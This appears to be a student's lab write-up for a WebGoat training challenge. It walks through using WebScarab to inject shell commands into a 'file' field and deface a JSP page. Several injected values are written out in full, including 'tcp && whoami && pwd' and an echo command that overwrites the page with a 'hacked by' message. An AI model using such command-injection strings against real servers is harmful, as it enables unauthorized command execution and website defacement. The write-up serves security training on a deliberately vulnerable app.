    
   - Remember, our present working directory is `/var/lib/tomcat6`. Therefore, the relative path is `webapps/WebGoat/webgoat_challenge_guest.jsp`.
   
**Now it's your turn**   

- Now that we know where the webpage is, your task will be to deface the website. Keep in mind the following:
  - Use **WebScarab** to perform command injection.
  - When performing command injection, you will need to select a field that WebScarab can return commands to. These fields are typically located in a drop down. 
  - You will also need to locate and edit the the webpage's source code: `webgoat_challenge_guest.jsp`
  - Your final command will:
    - Change to the location of the `webgoat_challenge_guest.jsp` file.
    - **and** echo `You've been hacked by...` followed by your name, to the `webgoat_challenge_guest.jsp` file.

  - Used webscarab to edit the `file` field inserted `tcp && whoami && pwd`
  ![pwd](Images/screenshots/15-challenge3-pwd.png)

  - Used webscarab to edit the `file` field, inserted `tcp && cd / && find . -iname webgoat_challenge_guest.jsp`
  ![find-jsp](Images/screenshots/15-challenge3-find-jsp.png)
    
  - Used webscarab to edit the `file` field, inserted `tcp && cd webapps/WebGoat/ && echo "You have been hacked by Will Koznarek" > webgoat_challenge_guest.jsp`